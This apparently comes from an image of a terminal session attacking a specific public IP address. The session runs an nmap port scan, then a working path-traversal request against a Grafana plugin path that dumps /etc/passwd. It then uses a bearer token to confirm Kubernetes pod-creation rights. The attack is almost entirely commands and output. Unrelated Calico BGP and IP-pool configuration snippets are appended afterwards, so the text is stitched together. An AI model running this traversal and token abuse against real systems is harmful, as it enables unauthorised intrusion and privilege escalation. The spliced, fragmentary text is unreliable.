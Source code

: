 $ nmap -p- --min-rate=1000 103.171.91.13
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-22 23:01 +07
Nmap scan report for 103.171.91.13
Host is up (0.028s latency).
Not shown: 65525 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
6443/tcp  open   sun-sr-https
9090/tcp  closed zeus-admin
19019/tcp open   unknown
30000/tcp open   ndmps
30740/tcp open   unknown
31750/tcp open   unknown
32000/tcp closed unknown

curl http://103.171.91.13:30000/login                                                                                                      
<!doctype html><html lang="en"><head>.......<style>.preloader {
        height: 100%;
        flex-direction: column;
        display: flex;
        justify-content: center;
        align-items: center;
      }
      ......

$ curl --path-as-is 103.171.91.13:30000/public/plugins/alertGroups/../../../../../../../../etc/passwd                                        
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin

$ export $TOKEN = “eyJhbGciOiJSUzI1NiIsImtp…………………cJ7CWqN8ch8ZBpeGxw”

$ kubectl --token=TOKEN auth can-i create pod                                                                                                
yes

apiVersion: projectcalico.org/v3
kind: BGPPeer
metadata:
  name: rack1-tor
spec:
  peerIP: 192.20.30.40
  asNumber: 64567
  nodeSelector: rack == 'rack-1'

$ kubectl label node my-node route-reflector=true

kind: BGPPeer
apiVersion: projectcalico.org/v3
metadata:
  name: peer-with-route-reflectors
spec:
  nodeSelector: all()
  peerSelector: route-reflector == 'true'

apiVersion: projectcalico.org/v3
kind: IPPool
metadata:
  name: ippool-ipip-1
spec:
  cidr: 192.168.0.0/16
  ipipMode: Always
  natOutgoing: true

apiVersion: projectcalico.org/v3
kind: IPPool
metadata:
  name: ippool-vxlan-1
spec:
  cidr: 192.168.0.0/16
  vxlanMode: Always
  natOutgoing: true


